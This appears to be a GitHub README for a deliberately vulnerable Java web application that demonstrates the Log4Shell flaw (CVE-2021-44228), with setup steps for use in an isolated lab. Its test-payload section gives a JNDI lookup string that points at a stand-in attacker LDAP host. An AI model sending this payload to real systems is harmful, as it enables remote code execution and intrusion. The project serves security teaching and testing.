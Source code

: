 # CVE-2021-44228 Log4Shell WebApp Demo

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- Simple HTML form
- Docker or manual Java support

**Intended strictly for educational and controlled testing purposes.** Never expose this to the internet.

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access

### Run the setup script:
```bash
chmod +x setup.sh
./setup.sh
```

Open your browser and visit:
👉 [http://localhost:8080](http://localhost:8080)

---

## Docker Alternative

If you prefer Docker:

```bash
docker build -t log4shell-webform .
docker run -p 8080:8080 log4shell-webform
```

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://attacker.com/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Main.java
├── log4j2.xml
├── Dockerfile
├── setup.sh
├── README.md
└── libs/ (downloaded automatically)
```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.
